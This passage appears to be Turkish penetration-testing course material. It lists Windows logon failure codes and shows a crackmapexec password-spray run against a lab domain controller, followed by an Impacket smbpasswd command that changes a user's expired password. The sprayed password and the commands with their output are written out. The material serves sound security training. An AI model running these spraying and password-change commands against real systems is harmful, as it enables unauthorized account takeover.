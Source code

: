 Parola hala geçerliyken çeşitli nedenlerle kimlik doğrulama başarısız olabilir. İşte tam bir liste:

| Durum Kodu                    | Açıklama                         |
| ----------------------------- | -------------------------------- |
| STATUS_ACCOUNT_DISABLED       | Hesap devre dışı bırakılmış.     |
| STATUS_ACCOUNT_EXPIRED        | Hesap süresi dolmuş.             |
| STATUS_ACCOUNT_RESTRICTION    | Hesap kısıtlamalı.               |
| STATUS_INVALID_LOGON_HOURS    | Geçersiz oturum açma saatleri.   |
| STATUS_INVALID_WORKSTATION    | Geçersiz workstation.            |
| STATUS_LOGON_TYPE_NOT_GRANTED | Oturum açma türü verilmemiş.     |
| STATUS_PASSWORD_EXPIRED       | Şifre süresi dolmuş.             |
| STATUS_PASSWORD_MUST_CHANGE   | Şifrenin değiştirilmesi gerekli. |
| STATUS_ACCESS_DENIED          | Erişim reddedildi.               |

Nedenine bağlı olarak, örneğin, `STATUS_INVALID_LOGON_HOURS` veya `STATUS_INVALID_WORKSTATION` başka bir workstation veya başka bir zaman denemek için iyi bir fikir olabilir. `STATUS_PASSWORD_MUST_CHANGE` mesajı durumunda, [Impacket smbpasswd](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbpasswd.py) kullanarak kullanıcının şifresini şu şekilde değiştirebiliriz: `smbpasswd -r domain -U user` .


### Şifre Değiştirme: PASSWORD_MUST_CHANGE Durumundaki Hesap için

```
crackmapexec smb 10.129.203.121 -u julio peter -p Inlanefreight01!

SMB 10.129.203.121 445 DC01 [*] Windows 10.0 Build
17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True)
(SMBv1:False)
SMB 10.129.203.121 445 DC01 [-]
inlanefreight.htb\julio:Inlanefreight01! STATUS_LOGON_FAILURE
SMB 10.129.203.121 445 DC01 [-]
inlanefreight.htb\peter:Inlanefreight01! STATUS_PASSWORD_MUST_CHANGE
```

Burada hedef kullanıcının şifresini değiştirebiliriz. Bir penetrasyon testinde, hesap şifrelerini değiştirme konusunda dikkatli olmalı ve yapılan her türlü hesap değişikliğini raporumuzun eklerinde not etmeliyiz. Hedef hesap uzun süredir giriş yapmamışsa, aktif olarak kullanılan bir hesaba göre şifreyi değiştirmek genellikle daha güvenlidir. Tipik olarak, bir organizasyon kullanılmayan hesapları devre dışı bırakır, ancak zaman zaman şifrelerini değiştirebileceğimiz unutulmuş hesaplarla karşılaşabiliriz ve bu, değerlendirme hedefimize daha da yaklaşmamıza yardımcı olabilir. Şüphe durumunda, her zaman herhangi bir değişiklik yapmadan önce müşteriyle iletişime geçin.

```
smbpasswd -r 10.129.203.121 -U peter

Old SMB password:
New SMB password:
Retype new SMB password:
Password changed for user peter
```
